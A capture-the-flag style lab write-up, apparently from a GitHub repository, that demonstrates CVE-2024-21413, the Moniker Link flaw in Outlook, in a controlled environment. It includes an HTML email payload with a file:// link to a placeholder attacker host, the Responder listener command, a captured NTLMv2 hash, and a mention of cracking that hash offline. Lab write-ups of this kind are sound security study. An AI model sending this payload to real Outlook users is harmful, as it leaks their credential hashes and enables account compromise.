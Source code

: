 # CVE-2024-21413 - Moniker Link Exploit via Outlook

This lab demonstrates exploitation of CVE-2024-21413 (Moniker Link vulnerability in Microsoft Outlook), which allows a remote attacker to capture NTLMv2 hashes by sending a specially crafted email. This report includes payload details, tool usage, and results captured during testing in a controlled environment.

## ⚙️ Lab Setup

**Attacker Machine:**  
- OS: Kali Linux  
- Tool: Responder  
- Network: Host-only subnet with SMTP and SMB routing to victim  

**Victim Machine:**  
- OS: Windows 10 (Outlook configured)  
- Email client: Microsoft Outlook  
- Network: Same subnet as attacker  

## 📬 Email Payload

The payload is an HTML email with an embedded UNC path triggering an SMB request when opened in Outlook. The HTML code was embedded and sent via a Python script:

```html
<p><a href="file://ATTACKER_MACHINE/test!exploit">Click me</a></p>
```
The email was crafted using [this script](https://github.com/colinlyons29/redteam-walkthroughs/blob/main/CVE-2024-21413-MonikerLink/payload/exploit.py) credit to CMNatic

## 🧠 Exploit Process
Started Responder on Kali to listen for inbound SMB connections:
```
sudo responder -I eth0
```
Executed the email payload script on the attacker machine:
```
python3 exploit.py
```
Victim then opened the email in Outlook & clicked the link provided.
Responder captured the NTLMv2 hash from the victim system:
```
[SMB] NTLMv2-SSP Client : ::ffff:10.10.134.81
[SMB] NTLMv2-SSP Username : THM-MONIKERLINK\tryhackme
[SMB] NTLMv2-SSP Hash
: tryhackme: :THM-MONIKERLINK:d884749f68a6de55:CAFD9223FFA851DCB6B4F07C7240B104:01010000000000008016FE5018BBDB01CD6FAFD58D762C0600000000
0200080050004A0030004A0001001E00570049004E002D004A00580039004B00420052004C004B0031005800370004003400570049004E002D004A00580039004B00420052004C004B003100580037002
E0050004A0030004A002E004C004F00430041004C000300140050004A0030004A002E004C004F00430041004C000500140050004A0030004A002E004C004F00430041004C00070008008016FE5018BBDB
01060004000200000008003000300000000000000000000000002000004099F5BC7F5925B8B3AD139935B27D31DDF17B4BF729DDE9C6AA11E3227981900A0010000000000000000000000000000000000
00900240063006900660073002F00310030002E00310030002E003100380037002E00320033003700000000000000000000000000
```

## 🧪 Outcome
- Successfully triggered Outlook to initiate an SMB authentication attempt via Moniker Link.

- Captured NTLMv2 hash using Responder.

- The hash can be cracked offline with hashcat or john for potential credential compromise.

## 🔐 Notes
- Microsoft has patched this issue as of February 2024.

- The attack demonstrates the risks of UNC path resolution in email clients.

## 🧰 Tools Used
- Kali Linux (2024.1)

- Responder

- Python 3.10

- Outlook 2019 on Windows 10 VM

## 🧾 References
- [CVE-2024-21413 on NVD](https://nvd.nist.gov/vuln/detail/CVE-2024-21413)

- [Microsoft Patch Details](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2024-21413)

- [CMNatic GitHub Payload](https://github.com/cmnatic)

